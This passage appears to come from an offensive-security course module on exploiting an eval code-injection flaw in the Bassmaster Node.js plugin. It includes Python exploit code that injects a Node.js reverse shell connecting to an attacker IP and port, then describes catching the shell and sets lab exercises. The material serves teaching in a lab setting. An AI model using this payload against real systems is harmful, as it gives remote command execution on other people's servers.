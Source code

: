 shell = 'var net = require(\'net\'),sh = require(\'child_process\').exec(\'%s\'); ' % cmd
shell += 'var client = new net.Socket(); '
shell += 'client.connect(%s, \'%s\', function() {client.pipe(sh.stdin);sh.stdout.pipe(client);' % (attackerport, attackerip)
shell += 'sh.stderr.pipe(client);});' 

request_3 = '{"method":"get","path":"/item/$1.id;%s"}' % shell

json =  '{"requests":[%s,%s,%s]}' % (request_1, request_2, request_3)

r = requests.post(target, json)

print r.content
Listing 21 - Avoiding character restrictions via hex encoding

All that is left to do now is test our new payload. We'll set up the netcat listener on our Kali VM and pass the IP and port as arguments to our script.

Figure 6: Bassmaster code injection results in a reverse shell
Figure 6: Bassmaster code injection results in a reverse shell
Excellent! Our character restriction evasion worked and we were able to receive a reverse shell!

Exercise
Repeat the steps outlined in this module and obtain a reverse shell.

Extra Mile
The student user home directory contains a sub-directory named bassmaster_extramile. In this directory we slightly modified the Bassmaster original code to harden the exploitation of the vulnerability covered in this module.

Launch the NodeJS batch.js example server from the extra mile directory and exploit the eval code injection vulnerability overcoming the new restrictions in place.

student@bassmaster:~$ cd bassmaster_extramile/

student@bassmaster:~/bassmaster_extramile$ nodejs examples/batch.js
Server started.
Listing 22 - Starting the extra mile NodeJS server

1
(Riyaz Walikar, 2016), https://ibreak.software/2016/08/nodejs-rce-and-a-simple-reverse-shell/ ↩︎

